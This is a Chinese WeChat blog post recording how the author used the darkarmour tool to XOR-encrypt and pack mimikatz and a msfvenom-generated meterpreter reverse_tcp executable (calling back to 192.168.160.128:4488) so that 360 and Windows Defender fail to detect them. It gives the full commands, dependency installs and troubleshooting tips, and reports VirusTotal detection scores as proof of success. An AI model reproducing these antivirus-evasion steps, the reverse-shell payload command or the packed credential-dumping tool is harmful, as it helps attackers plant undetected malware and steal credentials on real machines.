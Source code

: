 #  我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题 #免杀对抗 5个内容

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194459.png)

  

  

  

**0x1  mimikatz免杀**

 **  
**

  * 

    
    
    python3 darkarmour.py -f /root/mimikatz.exe -e xor -j -k sanker -l 20 -u -o /root/bypass_mimikatz.exe

  

k参数：用于加密的密钥key，如果不设置则默认随机生成  
j参数：使用基于jmp的PE加载器  
l参数：加密级别  
u参数：用upx打包可执行文件

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194504.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194505.png)

  

这里加密字节的过程比较久，尝试运行bypass_mimikatz.exe

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194507.png)

  

运行成功，看看免杀效果如何  

  

Bypass 360 success!

![](https://gitee.com/fuli009/images/raw/master/public/20210916194508.png)

  

Bypass Windows Defender success!

![](https://gitee.com/fuli009/images/raw/master/public/20210916194509.png)

  

V站评分10/66

![](https://gitee.com/fuli009/images/raw/master/public/20210916194511.png)

  

  

  

  

 **0x2  MSF免杀**

 **  
**

先生成可执行文件

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194512.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194513.png)

  

此次的加密等级设置为10，看运行如何

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194514.png)

  

上线成功，看看免杀效果如何

  

Bypass 360 success!

![](https://gitee.com/fuli009/images/raw/master/public/20210916194516.png)

  

Bypass Windows Defender success!

![](https://gitee.com/fuli009/images/raw/master/public/20210916194517.png)

  

V站评分22/66（分数不太可观，可能和我设置的加密等级有关）

![](https://gitee.com/fuli009/images/raw/master/public/20210916194518.png)

  

  

* * *

  

吐槽一下，加密后的mimikatz.exe居然10.6MB，我真服了。源文件才1.29MB，我猜测这应该是我设置的加密等级太高，图中可以看到我加密等级为500，项目给出的示例也仅仅是5而已。同时，我猜测加密等级会影响免杀效果，由于加密花费时间较长，我这里就没有一一进行测试，师傅们可以自行尝试。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210916194519.png)

  

  

  

* * *

  

  

 **记录一些使用过程中遇到的问题：**  

  

 **排坑1：报错“sh: 1: x86_64-w64-mingw32-gcc: not foundded.exe...”**

![](https://gitee.com/fuli009/images/raw/master/public/20210916194520.png)

 **解决方法：**  

  * 

    
    
     apt-get install mingw-w64

 **项目所需要的依赖环境：**  

  * 

    
    
     apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode

注意：本人试过用Windows
10和Ubuntu系统去使用darkarmour工具，都混淆shellcode失败，原因未知。如果同样有小伙伴在使用这款工具时遇到这样的问题，不妨换成Kali系统。

  

  

 **排坑2：使用msfvenom生成MSF马时，必须用以下命令**

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

注意：payload一定得是windows/x64/meterpreter/reverse_tcp  
（别问为什么，我也不清楚，我一开始上线不成功，最后排查到居然是payload的问题，想不明白为什么，这里浪费好些时间![](https://gitee.com/fuli009/images/raw/master/public/20210916194521.png)）

  

  

 **源项目地址：**

  * 

    
    
     https://github.com/bats3c/darkarmour

感谢所有前辈的开源精神以及知识分享![](https://gitee.com/fuli009/images/raw/master/public/20210916194522.png)

  

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


